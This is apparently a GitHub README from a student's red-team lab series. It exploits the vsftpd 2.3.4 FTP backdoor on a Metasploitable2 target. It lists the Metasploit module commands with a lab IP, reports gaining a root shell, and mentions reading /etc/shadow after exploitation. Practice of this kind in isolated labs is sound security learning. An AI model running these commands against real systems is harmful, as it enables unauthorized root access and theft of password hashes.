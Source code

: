 
---

##  Lab03 – Exploiting FTP Backdoor (vsftpd 2.3.4)


# Lab03 – Exploiting FTP Backdoor (vsftpd 2.3.4)


##  Objective
Exploit a known backdoor vulnerability in the vsftpd 2.3.4 service to gain shell access.

---

##  Tools
- Metasploit Framework
- Kali Linux

---

##  Exploit Used
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.101
set RPORT 21
run
```

---

## Result
Successfully exploited vsftpd backdoor

Gained root shell on the target (Metasploitable2)

---

## What I Learned
Understood how to identify and target known CVEs

Practiced Metasploit module usage with precision

Experienced real-world post-exploitation workflow

===

## Screenshot

The following screenshot captures the successful execution of the vsftpd 2.3.4 backdoor exploit using Metasploit and resulting root shell access:

![vsftpd Exploit – Root Shell]([../../Screen%20Shot%202025-05-23%20at%2020.28.34.png](https://github.com/ATTezel/RedTeam-Labs/blob/main/lab3/Screen%20Shot%202025-05-23%20at%2020.28.34.png))

Verification of root access using basic system commands (`id`, `whoami`, `hostname`):

![Root Access Confirmed]([../../Screen%20Shot%202025-05-23%20at%2020.29.13.png](https://github.com/ATTezel/RedTeam-Labs/blob/main/lab3/Screen%20Shot%202025-05-23%20at%2020.29.13.png
))

As part of post-exploitation, we accessed `/etc/shadow` to demonstrate privilege level:

![Shadow File Access]([../../Screen%20Shot%202025-05-23%20at%2020.31.44.png](https://github.com/ATTezel/RedTeam-Labs/blob/main/lab3/Screen%20Shot%202025-05-23%20at%2020.31.44.png)



---

## Date
23 May 2025
